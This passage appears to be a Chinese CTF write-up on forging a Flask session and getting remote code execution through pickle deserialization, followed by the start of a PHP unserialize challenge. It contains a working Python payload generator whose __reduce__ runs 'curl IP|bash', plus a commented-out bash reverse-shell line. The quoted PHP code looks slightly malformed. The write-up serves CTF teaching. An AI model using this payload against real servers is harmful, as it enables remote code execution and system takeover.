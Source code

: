发现核心就是 pickle 反序列化, 知道secret_key之后就可以污染session, 然后 pickle 反序列化RCE

```python
# -*-coding:utf-8-*-
import pickle
from base64 import b64encode
import os

User = type('User', (object,), {
    'uname': 'ricky',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
    # 添加__reduce__方法RCE
    # '__reduce__': lambda o: (os.system, ("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'",))
    '__reduce__': lambda o: (os.system, ("curl IP|bash",))

})
u = pickle.dumps(User())
print(b64encode(u).decode())
```

伪造session格式: {'u':{'b':'base64字符串'}}, 服务器监听即可

### 坑点

> 1. 正常来说不进行base64加密，直接将`{'u':b'dumps结果'}`生成session也可以RCE，这是因为代码方面他只是检查了u是否是dict，无论是不是字典都会进行loads操作，所以直接传序列化字符串也可以。不过这只适用于一些简单的命令，比如ls之类的，反弹shell的命令由于字符过于复杂，所以只能使用base64加密的字典格式。 
>
> 2. 靶机是Linux环境，本地是Windows环境，这两个环境下dumps的结果中序列化字符串声明系统的标识符不同：Linux=>posix；Windows=>nt，需要将脚本放在Linux环境下生成序列化字符串 

## easy_unserialize

源码

```php
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
            'display_errors'=>'On',
            'allow_url_fopen'=>'On'
                    );
    }
    $this->params = array();
    public function __wakeup(){
        foreach ($this->settings as $key => $value) {
            ini_set($key, $value);
        }
    }

    public function __destruct(){
        file_put_contents('settings.inc', unserialize($this->params));
    }
}
```
